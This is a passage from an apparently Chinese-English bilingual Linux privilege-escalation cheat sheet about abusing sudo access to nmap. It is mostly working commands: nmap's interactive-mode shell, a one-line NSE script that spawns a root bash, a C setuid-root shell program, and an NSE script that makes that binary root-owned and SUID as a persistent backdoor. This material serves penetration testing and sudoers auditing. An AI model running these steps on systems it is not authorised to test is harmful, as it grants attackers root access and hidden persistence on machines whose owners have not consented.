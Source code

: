 ```shell
$ sudo nmap --interactive
这应该会给你一个升高的 shell。
```

### Nmap Scripting Engine Nmap 脚本引擎

较新版本的 nmap 已删除在交互模式下运行的选项。相反，我们可以通过使用 nmap 脚本功能执行自定义 lua 脚本来提升权限。`os.execute` 函数应该为我们提供对系统命令的访问。


下面是一个快速而肮脏的脚本，用于获取 root shell：

```shell
$ echo 'os.execute("/bin/bash")' > /tmp/rootme.nse
```

```shell
sudo nmap --script /tmp/rootme.nse
```

### Alternatives 选择

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void){
	setuid(0); setgid(0); system("/bin/bash");
}
```

将文件传输到目标计算机上，并创建以下 nse 脚本。同样，使用

```
 sudo nmap --script rootme.nse 
```


 运行 nse 脚本。

```
author = "w0lfram1te"
categories = {"default", "safe"}

prerule = function()
	return "True"
end

action = function(prerule)
	os.execute("chown root.root /tmp/rootme")
	os.execute("chmod +sx /tmp/rootme")
	return "nmap priv escalation"
end
```

## SUID
